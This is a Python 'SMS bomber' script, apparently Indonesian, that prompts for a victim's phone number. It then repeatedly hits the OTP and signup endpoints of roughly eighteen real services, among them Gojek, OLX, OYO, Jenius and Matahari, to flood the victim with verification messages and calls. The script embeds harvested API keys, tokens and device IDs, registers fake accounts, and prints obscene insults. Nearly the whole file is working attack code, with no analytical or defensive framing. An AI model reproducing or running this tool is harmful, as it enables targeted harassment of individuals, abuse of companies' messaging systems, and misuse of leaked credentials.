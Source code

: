import os,sys,json
try:
	import requests as reek
	req=reek.Session()
except ModuleNotFoundError:os.system("python -m pip install requests") ; os.system(f"python {sys.argv[0]}")
class nyepam:
	def __init__(self,_8,_08,_62):
		self._8,self._08,self._62=_8,_08,_62
	def mulai(self):
		try:
			for x in range(5):
				send=req.post("https://cmsapi.mapclub.com/api/signup-otp",data={"phone":self._08},headers={"Connection": "keep-alive","User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36"}).text
				if "ok" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://api.adakami.id/adaKredit/pesan/kodeVerifikasi",data=json.dumps({"ketik":0,"nomor":"0"+self._8}),headers={"content-type": "application/json; charset=UTF-8","content-length": "34","accept-encoding": "gzip","user-agent": "okhttp/3.8.0","accept-language": "in","x-ada-token": "","x-ada-appid": "800006","x-ada-os": "android","x-ada-channel": "default","x-ada-mediasource": "","x-ada-agency": "adtubeagency","x-ada-campaign": "AdakamiCampaign","x-ada-role": "1","x-ada-appversion": "1.7.0","x-ada-device": "","x-ada-model": "SM-G935FD","x-ada-os-ver": "7.1.1","x-ada-androidid": "a4341a2sa90a4d97","x-ada-aid": "c7bbb23d-a220-4d43-9caf-153608f9bd39","x-ada-afid": "1580054114839-7395423911531673296"}).text
				if "Permintaan kode verifikasi sudah melebihi batas. Silakan coba lagi besok." in send:break
				else:continue
			for x in range(5):
				send=json.loads(reek.get(f"https://id.jagreward.com/member/verify-mobile/{self._8}").text)
				if send["message"]=="Anda akan menerima sebuah panggilan dari sistem kami. Silakan isi 6 ANGKA TERAKHIR dari nomor telepon dibawah ini.":continue
				else:break
			for x in range(15):
				send=req.post("https://tokomanamana.com/ma/auth/request_token_merchant/",data={"phone":self._08},headers={"Host": "tokomanamana.com","Connection": "keep-alive","Content-Length": "18","Accept": "*/*","Origin": "https://tokomanamana.com","X-Requested-With": "XMLHttpRequest","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","Referer": "https://tokomanamana.com/ma/register","Accept-Encoding": "gzip, deflate","Accept-Language": "id-ID,en-US;q=0.8"}).text
				if "Kode OTP berhasil dikirim!" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://identity-gateway.oyorooms.com/identity/api/v1/otp/generate_by_phone?locale=id", data=json.dumps({"phone":self._8,"country_code": "+62","country_iso_code": "ID","nod": "4","send_otp": "true","devise_role": "Consumer_Guest"}),headers={"Host": "identity-gateway.oyorooms.com","consumer_host": "https://www.oyorooms.com","accept-language": "id","access_token": "SFI4TER1WVRTakRUenYtalpLb0w6VnhrNGVLUVlBTE5TcUFVZFpBSnc=","User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","Content-Type": "application/json","accept": "*/*","origin": "https://www.oyorooms.com","referer": "https://www.oyorooms.com/login","Accept-Encoding": "gzip,deflate,br"}).text
				if "SUCCESSFULLY GENERATED OTP " in send:continue
				else:break
			for x in range(5):
				send=req.post("https://app.cairin.id/v1/app/sms/sendCaptcha",data={"haveImageCode":"0","fileName":"6f8c3b90c845f09ff1bfe714a30aede8","phone":self._08,"imageCode":"","userImei":"","type":"registry"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-J320M Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.110 Mobile Safari/537.36"}).text
				if "leftTimes" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://www.olx.co.id/api/auth/authenticate",data=json.dumps({"grantType": "retry","method": "sms","phone":self._62,"language": "id"}), headers={"accept": "*/*","x-newrelic-id": "VQMGU1ZVDxABU1lbBgMDUlI=","x-panamera-fingerprint": "83b09e49653c37fb4dc38423d82d74d7#1597271158063","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36","content-type": "application/json"}).text
				if "status" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://auth.dekoruma.com/api/v1/register/request-otp-phone-number/?format=json",data=json.dumps({"phoneNumber":self._62,"platform":"wa"}),headers={"content-type": "application/json","user-agent":"Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36"}).text
				if "" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://api.payfazz.com/v2/phoneVerifications",data={"phone":self._08},headers={"Host": "api.payfazz.com", "content-length": "17", "accept": "*/*", "origin": "https://www.payfazz.com","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36", "content-type": "application/x-www-form-urlencoded; charset=UTF-8", "referer": "http://www.payfazz.com/register/BEN6ZF74XL", "accept-encoding": "gzip, deflate, br", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}).text
				if "phoneVerificationId" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://harvestcakes.com/register",data={"phone":self._8},headers={"user-agent":"Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36"}).text
				if "function" in send:continue
				else:break
			for x in range(5):
				send=reek.get("https://api.danacita.co.id/users/send_otp/?mobile_phone="+self._08,headers={"user-agent":"Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36"})
				load=json.loads(send.text)
				if load["detail"] == "Successfully sent OTP SMS":continue
				else:break
			for x in range(5):
				send=req.post("https://api.gojekapi.com/v5/customers", data={"email": "nsjwwiwiwisnsnn12@gmail.com", "name": "akuinginterbang12", "phone":self._62, "signed_up_country": "ID"},headers={"X-Session-ID": "f8b67b26-c6a4-44d2-9d86-8d93a80901c9", "X-Platform": "Android", "X-UniqueId": "8606f4e3b85968fd", "X-AppVersion": "3.52.2", "X-AppId": "com.gojek.app", "Accept": "application/json", "Authorization": "Bearer", "X-User-Type": "customer", "Accept-Language": "id-ID", "X-User-Locale": "id_ID", "Host": "api.gojekapi.com", "Connection": "Keep-Alive", "Accept-Encoding": "gzip", "User-Agent": "okhttp/3.12.1"}).text
				if "success" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://u.icq.net/api/v14/rapi/auth/sendCode", data=json.dumps({"reqId": "64708-1593781791", "params": {"phone":self._62, "language": "en-US", "route": "sms", "devId": "ic1rtwz1s1Hj1O0r", "application": "icq"}}),headers={"accept": "*/*", "accept-language": "en-US,en;q=0.9,id;q=0.8,mt;q=0.7", "content-type": "application/json", "origin": "http://web.icq.com", "referer": "http://web.icq.com/", "sec-fetch-dest": "empty", "sec-fetch-mode": "cors", "sec-fetch-site": "cross-site", "User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36"}).text
				if "results" in send:continue
				else:break
			for x in range(5):
				send=reek.get(f"https://japi.maucash.id/welab-user/api/v1/send-sms-code?mobile={self._8}&channelType=0",headers={"Host":"japi.maucash.id","accept":"application/json, text/plain, */*","x-origin":"google play","x-org-id":"1","x-product-code":"YN-MAUCASH","x-app-version":"2.4.23","x-source-id":"android","accept-encoding":"gzip","user-agent":"okhttp/3.12.1"}).text
				if "Permintaan berhasil" in send:continue
				else:break
			for x in range(5):
				a=reek.get("https://www.matahari.com/customer/account/create/")
				b=a.cookies["PHPSESSID"]
				send=req.post("https://www.matahari.com/rest/V1/thorCustomers",data=json.dumps({"thor_customer":{"name":" Kang Pacman","card_number":False,"email_address":"aapafandi01@gmail.com","mobile_country_code":"+62","gender_id":"1","mobile_number":self._08,"mro":"","password":"kontolanjingmemek6793","birth_date":"10/04/2000"}}),headers={"Host": "www.matahari.com","content-length": "245","x-newrelic-id": "Vg4GVFVXDxAGVVlVBgcGVlY=","x-requested-with": "XMLHttpRequest","user-agent": "Mozilla/5.0 (Linux; Android 8.1.0; SM-J111F Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/87.0.4280.141 Mobile Safari/537.36","content-type": "application/json","accept": "*/*","referer": "https://www.matahari.com/customer/account/create/","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","cookie": f"PHPSESSID={b}"}).text
				if "Success" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://api.btpn.com/jenius", json.dumps({"query": "mutation registerPhone($phone: String!,$language: Language!) {\n  registerPhone(input: {phone: $phone,language: $language}) {\n    authId\n    tokenId\n    __typename\n  }\n}\n","variables": {"phone":"+62"+self._8,"language": "id"},"operationName": "registerPhone"}),headers={"accept": "*/*","btpn-apikey": "f73eb34d-5bf3-42c5-b76e-271448c2e87d","version": "2.36.1-7565","accept-language": "id","x-request-id": "d7ba0ec4-ebad-4afd-ab12-62ce331379be","Content-Type": "application/json","Host": "api.btpn.com","Connection": "Keep-Alive","Accept-Encoding": "gzip","Cookie": "c6bc80518877dd97cd71fa6f90ea6a0a=24058b87eb5dac1ac1744de9babd1607","User-Agent": "okhttp/3.12.1"}).text
				if "registerPhone" in send:continue
				else:break
			for x in range(5):
				send=req.post("https://app-api.kredito.id/client/v1/common/verify-code/send",'{"event":"default_verification","mobilePhone":"%s","sender":"jatissms"}'%(self._8),headers={"LPR-TIMESTAMP":"1603281035821","Accept-Language":"id-ID","LPR-BRAND":"Kredito","LPR-PLATFORM":"android","User-Agent":"okhttp/3.11.0 Dalvik/2.1.0 (Linux; U; Android 9; vivo 1902 Build/PPR1.180610.011) AppName/Kredito/v2.6.3 AppChannel/googleplay PlatformType/android","Authorization":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOi0xNjAzMjgxMDE3MjAzLCJ1dHlwZSI6ImFub24iLCJleHAiOjE2MDMyODQ2MTd9._HUnW7FQmMiDWvSejS0MBqMq95l2rk_6PuxDeXY5Oks","LPR-SIGNATURE":"e15dbea8602409df32a2ed5a123dc244","Content-Type":"application/json; charset=UTF-8","Content-Length":"79"}).text
				if "sukses" in send:continue
				else:break
			for x in range(115):
				send=req.post("https://tokomanamana.com/ma/auth/request_token_merchant/",data={"phone":self._08},headers={"Host": "tokomanamana.com","Connection": "keep-alive","Content-Length": "18","Accept": "*/*","Origin": "https://tokomanamana.com","X-Requested-With": "XMLHttpRequest","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","Referer": "https://tokomanamana.com/ma/register","Accept-Encoding": "gzip, deflate","Accept-Language": "id-ID,en-US;q=0.8"}).text
				if "Kode OTP berhasil dikirim!" in send:continue
				else:break
			exit("# MEMEK KAMU BAU:)")
		except reek.exceptions.ReadTimeout:exit("[!] Kesalahan Pada Koneksi")
		except reek.exceptions.ConnectionError:exit("[!] Kesalahan Pada Koneksi")
		except (KeyboardInterrupt,EOFError):exit("[!] Exit")
banner = """
\033[1;35m  
╔╦╦╦═╦╗╔═╦═╦══╦═╗
║║║║╩╣╚╣═╣║║║║║╩╣
╚══╩═╩═╩═╩═╩╩╩╩═╝
≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈»
\033[1;32m𝗔𝗨𝗧𝗛𝗢𝗥 : ROKI
≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈»
                           
 𝘾𝘼𝙇𝙇 𝙎𝙏𝘼𝙍𝙏 𝘿𝘼𝙍𝙄 𝘼𝙉𝙂𝙆𝘼 0 𝙔𝘼 𝘽𝙍𝙊! 
  = 0856**********
«~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~»\n"""
print (banner)
while True:
	try:
		a=input("MASUKKAN NOMER TUJUAN!  : ")
		asu=a[0:2]
		if a in(""," "):print("[!] 𝙅𝘼𝙉𝙂𝘼𝙉 𝙈𝘼𝙄𝙉 𝙈𝘼𝙄𝙉 𝘿𝙊𝙉𝙂 𝙎𝘼𝙔)")
		elif "08" not in asu:print("[!] Gunakan Nomer Dengan Awalan 08xxx")
		elif len(a)<=10:print("[!] NOMER BUTUH LEBIH DARI 9 ANGKA")
		else:
			b=a[1:12] 
			c="62"+b
			nyepam(b,a,c).mulai()
			break
	except Exception as ex:exit(str(ex))
	except (KeyboardInterrupt,EOFError):exit("[!] Exit")
